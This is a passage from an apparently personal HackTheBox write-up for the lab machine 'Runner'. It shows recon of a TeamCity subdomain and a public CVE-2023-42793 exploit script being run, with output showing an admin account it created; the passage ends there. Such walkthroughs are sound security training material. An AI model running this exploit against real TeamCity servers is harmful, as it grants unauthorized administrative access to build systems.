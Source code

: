 ```yaml
---
title: HackTheBox - Runner
date: Fri Aug 16 01:17:26 AM EDT 2024
categories: [PentestNotes]
tags: [linux,portainer,teamcity,subdomains,dns,htb,htb_season_5]
---
```


## Recon

{::options parse_block_html="true" /}

<details><summary markdown="span">nmap_scan.log</summary></details>

{::options parse_block_html="false" /}

## HTTP (80)

Port 80 seems to be server hosting services:

![Pasted image 20240527180642.png](/assets/images/Season 5/Runner/Pasted image 20240527180642.png)

Directory/subdomain enumeration came empty handed. The common CI/CD pipeline software we have seen if `TeamCity` which isn't included in wordlists so I tried it manually:
```bash
┌──(woyag㉿kraken)-[~/Desktop/Rooms/Runner]
└─$ curl runner.htb -H 'Host: teamcity.runner.htb' -i
HTTP/1.1 401
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 27 May 2024 14:09:42 GMT
Content-Type: text/plain;charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
TeamCity-Node-Id: MAIN_SERVER
WWW-Authenticate: Basic realm="TeamCity"
WWW-Authenticate: Bearer realm="TeamCity"
Cache-Control: no-store

Authentication required
To login manually go to "/login.html" page
```

## TeamCity

![Pasted image 20240527181655.png](/assets/images/Season 5/Runner/Pasted image 20240527181655.png)
We need credentials for login...

Under login we see version number and quick google leads us to CVE: https://github.com/Zyad-Elsayed/CVE-2023-42793

```bash
┌──(woyag㉿kraken)-[~/Desktop/Rooms/Runner]
└─$ py CVE-2023-42793/CVE-2023-42793.py -u http://teamcity.runner.htb
[+] http://teamcity.runner.htb/login.html [H454NSec1037:@H454NSec]
```
